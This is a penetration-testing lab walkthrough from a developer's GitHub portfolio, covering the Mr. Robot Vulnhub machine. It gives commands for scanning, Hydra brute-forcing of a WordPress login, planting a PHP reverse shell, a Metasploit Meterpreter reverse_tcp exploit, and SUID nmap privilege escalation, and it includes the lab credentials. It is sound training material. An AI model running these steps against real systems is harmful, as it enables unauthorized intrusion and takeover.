 <div align="center"><h1>Ivan Arias</h1></div>
<div align="center"><h2>Full-Stack Developer | Junior Penetration Tester | AWS Enthusiast</h2></div>

<div id="badges" align="center">
  <a href="https://www.linkedin.com/in/hcoco1/">
    <img src="https://img.shields.io/badge/LinkedIn-blue?style=for-the-badge&logo=linkedin&logoColor=white" alt="LinkedIn Badge"/>
  </a>
  <a href="https://www.youtube.com/channel/UCban0ilP3jBC9rdmL-fPy_Q">
    <img src="https://img.shields.io/badge/YouTube-red?style=for-the-badge&logo=youtube&logoColor=white" alt="Youtube Badge"/>
  </a>
  <a href="https://twitter.com/hcoco1">
    <img src="https://img.shields.io/badge/Twitter-blue?style=for-the-badge&logo=twitter&logoColor=white" alt="Twitter Badge"/>
  </a>
</div>  


# Career Simulation 4

## Hacking Mr. Robot Virtual Machine

### by: [**Ivan Arias**](http://www.hcoco1.com) 🧑🏻‍💻 ☠️

### Overview

"Penetration testing is like a security checkup for computer systems. Testers simulate hacker activities to identify and fix vulnerabilities before real hackers can exploit them. This project will conduct a thorough web penetration test using the Mr. Robot Virtual Machine, which simulates realistic web vulnerabilities in a safe environment. This allows for the exploration and documentation of potential security flaws without affecting real systems.

Every step, finding, and overall result will be carefully documented throughout the process. This website will present a detailed account of the methodology and outcomes of the penetration testing journey, offering insight into how security assessments are carried out and highlighting the importance of regular security maintenance in preventing cyber attacks."

## Step 1: Set Up Environment
- **Objective:** Prepare your Kali Linux attacker VM and the Mr. Robot Vulnhub target VM.
- **Actions:**
  - Install necessary software on Kali Linux:
  
    ```bash
    sudo apt update
    sudo apt install -y nmap gobuster hydra metasploit-framework
    ```

## Step 2: Network Scanning
- **Objective:** Identify the target's open ports and services.
- **Tools:** Nmap
- **Commands:**
    ```bash
    nmap -sS -sV -O 192.168.1.226
    ```

## Step 3: Enumeration
- **Objective:** Gather detailed information about the target's web applications and technologies.
- **Tools:** Gobuster, Wappalyzer
- **Commands:**
    ```bash
    gobuster dir -u http://192.168.1.226 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```
  - Use Wappalyzer browser extension to identify web technologies used by the target site.

## Step 4: Vulnerabilities
- **Objective:** Identify vulnerabilities in the target's web applications and services.
- **Tools:** Nmap, Nikto
- **Commands:**
    ```bash
    nmap --script vuln 192.168.1.226
    nikto -h http://192.168.1.226
    ```

## Step 5: Brute-force
- **Objective:** Gain access to the target by brute-forcing login credentials.
- **Tools:** Hydra
- **Commands:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.226 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
    ```

## Step 6: Reverse Shell
- **Objective:** Gain remote access to the target system.
- **Tools:** PHP Reverse Shell, Metasploit

### Manual PHP Reverse Shell
1. **Upload a PHP Reverse Shell:**
   - Go to the WordPress admin panel at `http://192.168.1.226/wp-admin` and log in using the credentials found or brute-forced.
   - Navigate to Appearance > Theme Editor, select the `404.php` file, and insert the PHP reverse shell code from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

2. **Start a Netcat Listener:**
    ```bash
    nc -lvnp 4444
    ```

3. **Trigger the Reverse Shell:**
   - Visit the modified `404.php` file in your browser to trigger the reverse shell.
    ```bash
    http://192.168.1.226/wp-content/themes/[your-theme]/404.php
    ```

### Using Metasploit
1. **Start Metasploit:**
    ```bash
    msfconsole
    ```

2. **Select the Exploit Module:**
    ```bash
    use exploit/unix/webapp/wp_admin_shell_upload
    ```

3. **Set Required Options:**
    ```bash
    set RHOSTS 192.168.1.226
    set RPORT 80
    set USERNAME elliot
    set PASSWORD ER28-0652
    set TARGETURI /
    set LHOST 192.168.1.223
    set LPORT 4444
    set payload php/meterpreter/reverse_tcp
    set VERBOSE true
    ```

4. **Run the Exploit:**
    ```bash
    exploit
    ```

5. **Interacting with Meterpreter:**
    ```plaintext
    meterpreter > shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```

6. **Navigating the File System:**
    ```bash
    cd /home/robot
    ls -a
    cat key-1-of-3.txt
    cat key-2-of-3.txt
    ```

### Privilege Escalation (if needed)
- **Identify SUID binaries:**
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```

- **Exploit Nmap for Privilege Escalation:**
    ```bash
    /usr/local/bin/nmap --interactive
    !sh
    ```

- **Read the Final Key:**
    ```bash
    find / -name "key-3-of-3.txt" 2>/dev/null
    cat /root/key-3-of-3.txt
    ```

### Clean Up
1. **Remove Uploaded Files:**
    ```bash
    rm /wp-content/plugins/lCXSKnpNHP/DXgKrelAug.php
    rm -rf /wp-content/plugins/lCXSKnpNHP
    ```


